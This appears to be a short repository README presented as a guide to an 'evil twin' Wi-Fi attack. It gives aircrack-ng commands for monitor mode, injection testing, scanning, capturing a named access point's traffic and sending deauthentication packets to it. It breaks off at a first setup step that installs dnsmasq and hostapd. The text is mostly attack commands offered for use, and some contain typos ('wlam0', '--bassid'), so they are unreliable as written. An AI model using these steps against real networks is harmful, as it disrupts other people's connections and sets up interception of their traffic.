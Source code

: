 # Advance Evil twin attack!!

<h3> Put wireless card in monitor mode </h3>

```bash
airmon-ng start wlam0
```
 
  ### Testing the packet injection 
  
  ```bash
  aireplay-ng --test wlan0mon
  ```
  ### sniffing wireless network
   #### Scanning all the networks avalible
  
  ```bash
  airodump-ng wlan0mon
  ```
  ### sniff packs 
  
  ```bash
  airodump-ng --bassid 04:B0:E7:EC:34:24 -c 6 -w capture wlan0mon
  # this will start capturing packs in folder called capture
  ```
  
  ### inject packets in target network 
  ```bash
  aireplay-ng --deauth 10 -a 04:B0:E7:EC:34:24 wlan0mon
  ```
  ### To see the packets captured
  ```bash
  wireshark capture.cap
  ```
  
  # Setp 1
  
  - Install dnsmasq hostapd
  
   ```bash
        apt install dnsmasq hostapd
        ```
        
  
  
  
  
  
  
  

